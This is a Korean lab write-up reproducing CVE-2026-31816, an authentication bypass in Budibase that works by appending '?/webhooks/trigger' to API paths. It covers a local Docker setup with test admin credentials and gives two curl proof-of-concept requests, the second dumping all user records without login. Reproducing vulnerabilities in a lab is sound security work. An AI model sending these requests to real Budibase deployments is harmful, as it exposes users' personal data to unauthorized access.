


웹훅 쿼리 매개변수를 통한 Budibase 인증 우회 취약점(CVE-2026-31816)
1. 취약점 요약
CVE-2026-31816은 Budibase 3.31.4 이하 버전에서 발생하는 인증우회 취약점이다.
특정 API 경로 뒤에 "?/webhooks/trigger" 문자열을 추가하면, 서버가 해당 요청을 정상 API가 아닌 webhook 관련 요청으로 판단해 인증 검사를 위회할 수 있다. 공격자는 로그인 없이 사용자 정보에 접근할 수 있고 민감한 정보 조회나 데이터 조작이 가능하다
-------------
2. 환경 설정
다음 명령을 통해 취약 환경을 구축한다.
docker compose up -d

환경이 시작된 후 http://localhost:10000로 Budibase 인터페이스에 접속가능하다. 기본 관리자 자격증명은 다음과 같다.
admin@vuln.test : admin123456

------------- 
3. 재현 절차
Budibase에 접속해 로그인 한 후 워크스페이스 및 앱 생성
(사진 첨부)
브라우저 또는 curl을 사용해 요청 전송
curl 사용: curl -i "http://localhost:10000/api/applications?/webhooks/trigger"
브라우저 직접 접속: http://localhost:10000/api/applications?/webhooks/trigger

-첫번째 PoC 코드
curl -i "http://localhost:10000/api/applications?/webhooks/trigger"

실행 결과, 서버는 로그인 다음과 같이 응답했다
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
응답 본문은 다음과 같았다.
[]
즉 비인증 상태에서 해당 API 경로에 접근했을 때 차단되지 않고 정상적인 JSON응답이 반환되었다.
?/webhooks/trgger 문자열이 포함된 요청이 인증 검사를 우회한 가능성을 보여준다.
엔드포인트 URL에 추가하여 악용할 수 있다. 이렇게 하면 isWebhookEndpoint()함수가 쿼리 문자열과 일치하게 되어 인증 우회가 발생한다. 먼저 Budibase 인스턴스에 접속하여 유효한 앱 ID를 얻어야 한다. 그런 다음 쿼리 문자열에 웹훅 패턴을 추가하기만 하면 인증 절차 없이 보호된 API 엔드포인트에 접근할 수 있다.
http://localhost:10000/api/applications?/webhooks/trigger 접속을 통해 유효 앱 ID 확인이 가능하다.
본 실습에서는 로그아웃한 후 인증 우회를 하면 [] 빈 JSON파일로 반환된다. 다만 API경로에 차단되지 않고 정상적인 JSON 응답이 반환되었기 때문에 은정 검사를 우회한 가능성을 보여준다. 이후 앱 ID는 임의로 로그인 된 상태에서 추출한다.

얻은 앱 ID를 바탕으로 인증 없이 모든 사용자 데이터를 나열하는 요청을 보낼 수 있다.

-두번째 PoC코드
curl -i -X POST "http://localhost:10000/api/ta_users/search?/webhooks/trigger" \
-H "Content-Type: application/json" \
-H "x-budibase-app-id: app_3af2c05d508b450ab11a97b5ee043352" \
--data '{"query":{}}'
{"query":{}}

응답에는 이메일주소와 모든 사용자 기록이 포함되어 있어 데이터 유출 능력을 보여준다. 일반적으로 이러한 요청은 인증을 거쳐 로그인 페이지로 302 리디렉션을 반환하지만 인증 우회 덕분에 민감한 사용자 데이터가 직접 반환된다.

3. 실습 요약
-WSL2 환경에서 작업 폴더 생성
-docker-compose.yml 작성
-컨테이너 실행
-브라우저로 Budibase 접속
-관리자 계정을 로그인
-워크스페이스 및 앱 생성
-로그아웃
-인증 없이 취약 API 호출
